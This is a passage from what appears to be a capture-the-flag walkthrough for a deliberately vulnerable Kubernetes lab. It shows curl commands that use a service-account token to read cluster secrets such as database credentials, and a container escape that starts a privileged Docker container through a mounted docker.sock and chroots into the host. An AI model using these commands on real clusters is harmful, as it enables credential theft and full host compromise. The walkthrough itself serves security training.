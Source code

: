 **Step 2: Enumerate Permissions (Python Container)**

The python-web service account has permissions to list secrets:

```bash
# List secrets in production namespace
curl --cacert $CACERT -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces/production/secrets

# Get specific secret
curl --cacert $CACERT -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces/production/secrets/postgres-credentials

# Decode base64 secret value
# Flag found: flag{s3cr3ts_spr34d_l1k3_w1ldf1r3}
```

**Step 3: Attempt Namespace Discovery**

```bash
# Try to list all namespaces
curl --cacert $CACERT -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces

# Try to access kube-system secrets (will fail from python container)
curl --cacert $CACERT -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces/kube-system/secrets
```

---

## Phase 4: Privilege Escalation & Container Escape

### Method 1: Docker Socket Exploitation (C# Container)

The C# container runs privileged with docker.sock mounted - this allows complete container escape.

**Step 1: Install Docker CLI (if not present)**

```bash
# Download docker client
wget https://download.docker.com/linux/static/stable/x86_64/docker-20.10.9.tgz
tar xzf docker-20.10.9.tgz
cp docker/docker /usr/local/bin/
```

**Step 2: List Containers**

```bash
docker -H unix:///var/run/docker.sock ps
```

**Step 3: Escape to Host**

Method A - Mount host filesystem:

```bash
# Run new privileged container with host filesystem mounted
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host \
  --net=host -v /:/host alpine:latest chroot /host bash

# Now you're on the minikube node!
```
